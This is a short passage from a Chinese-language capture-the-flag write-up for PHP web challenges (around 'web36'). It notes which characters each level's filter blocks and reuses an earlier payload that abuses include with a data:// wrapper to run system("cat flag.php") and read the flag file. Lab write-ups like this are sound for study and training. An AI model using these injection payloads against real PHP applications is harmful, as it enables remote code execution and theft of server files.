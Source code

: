 多过滤了（和=

继续用32

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115219940](image/image-20231216115219940.png)

得到flag

------

#### web36

分析

![image-20231216115548777](image/image-20231216115548777.png)

多过滤了数字和/

继续用32的

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115103207](image/image-20231216115103207.png)
